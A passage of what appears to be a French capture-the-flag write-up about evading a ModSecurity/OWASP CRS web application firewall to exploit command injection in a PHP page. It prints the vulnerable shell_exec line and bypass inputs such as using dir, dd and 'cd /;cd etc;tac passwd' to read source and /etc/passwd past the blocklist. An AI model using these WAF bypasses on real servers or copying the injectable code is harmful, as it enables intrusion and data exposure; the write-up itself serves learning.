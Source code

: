 ```bash
PWD='/var/www/html'
```

Je ne suis pas expert Apache, mais cette variable d'environnement `INVOCATION_ID` me laisse supposer qu'un reverse proxy ou un composant quelconque est présent pour traiter les requêtes HTTP avant d'être gérées par le serveur.

On remarque rapidement qu'on ne peut pas placer n'importe quoi dans notre payload : les commandes classiques telles que `uname`, `ls`, `curl`, `wget`, `cat` sont bloquées et on obtient une erreur 403.

De même toutes utilisations des pipes (`|`) ou redirections sont immédiatement rejetées.

L'utilisation des tirets est aussi bloquée dans certains cas et la plupart des paths le sont aussi.

## CRS, S, S

Un système basé sur une blacklist a toujours l'inconvénient de passer quelques exceptions. Ainsi pour obtenir un listing de dossier, on peut utiliser la commande `dir` à la place de `ls`.

Le WAF bloquait aussi l'accès si on effectuait une opération sur un fichier avec l'extension `.php`.

Je voulais obtenir le code source de `test.php` pour comprendre mieux la vulnérabilité et c'est finalement la commande `dd` (qui envoie par défaut son output sur la console) qui m'a aidé :

```bash
dd if=test.php skip=1 bs=1
```

Là le comportement hybride entre affichage d'un fichier et exécution s'explique :

```php
?php echo shell_exec('cat ' . $_GET['file']);?>
```

Je suis finalement parvenu à aller fouiller des fichiers dans l'arborescence, mais il faut une fois de plus ruser :

```bash
cd /;cd etc;tac passwd
```

On voyait alors l'existence d'un utilisateur nommé `bob`.

J'ai ensuite voulu savoir quel mécanisme bloquait mes requêtes. Il s'agit d'un module Apache :

```bash
cd /;cd etc;cd apache2;tac mods-enabled/security2.conf
```

Remis dans le bon sens (la commande `tac` affiche les lignes d'un fichier dans le sens inverse) j'obtiens ceci :

```apache
<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity

        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        IncludeOptional /etc/modsecurity/*.conf

        # Include OWASP ModSecurity CRS rules if installed
        IncludeOptional /usr/share/modsecurity-crs/owasp-crs.load
</IfModule>
```
